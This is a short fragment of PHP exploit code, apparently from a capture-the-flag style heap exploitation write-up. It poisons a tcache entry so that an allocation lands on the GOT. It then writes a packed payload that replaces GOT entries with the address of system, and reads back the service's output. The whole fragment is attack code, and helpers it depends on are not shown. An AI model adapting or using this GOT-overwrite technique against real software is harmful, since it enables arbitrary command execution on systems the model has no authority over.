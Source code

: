 ```php

// tcache = ??? <-- GOT <-- 2

// Pop tcache
add($fp, 8, str_repeat("8", SIZE));

// We expect shit to hit the fan
try {
	// smash the got
	$payload = substr(pack("P*",
		$wmemcmp, 0xdeadbeef,
		$strncpy, $system,
	), 0, -1);

	add($fp, 9, $payload, SIZE);
} catch(Exception $e) {
	// We can't rely on our functions anymore
	// Display episode 0
	fwrite($fp, "3\n");
	fwrite($fp, "0\n");
}

while($buffer = fread($fp, 4096))
	echo $buffer;
```
